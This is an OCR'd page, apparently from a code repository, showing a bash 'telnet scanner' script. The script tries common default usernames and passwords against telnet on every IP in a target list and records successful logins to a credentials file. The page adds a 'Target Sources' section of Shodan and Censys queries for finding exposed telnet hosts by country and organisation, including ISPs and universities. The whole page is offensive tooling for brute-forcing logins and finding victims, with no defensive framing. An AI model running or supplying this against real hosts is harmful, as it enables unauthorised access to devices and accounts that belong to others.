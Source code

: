 #### **Bash Telnet Scanner**
```bash
#!/bin/bash
# telnet_scanner.sh

test_telnet() {
    local ip=$1
    local user=$2
    local pass=$3
    
    timeout 5 telnet $ip 23 << EOF
$user
$pass
exit
EOF
}

# Test common credentials
for ip in $(cat target_ips.txt); do
    for user in admin root user guest; do
        for pass in admin password 12345 123456 root admin ""; do
            if test_telnet $ip $user $pass; then
                echo "$ip:$user:$pass" >> found_credentials.txt
            fi
        done
    done
done
```

## 📊 Target Sources

### **1. Shodan Queries**
```
# Search for telnet services
"telnet" port:23
"login:" port:23
"Password:" port:23
"default password" port:23

# Search by country
"telnet" port:23 country:"US"
"telnet" port:23 country:"CN"

# Search by organization
"telnet" port:23 org:"ISP"
"telnet" port:23 org:"University"
```

### **2. Censys Queries**
```
# Telnet services
port:23 AND service.telnet.banner:*
port:23 AND service.telnet.banner:"login:"
port:23 AND service.telnet.banner:"Password:"

# Specific banners
port:23 AND service.telnet.banner:"Welcome"
port:23 AND service.telnet.banner:"admin"
```
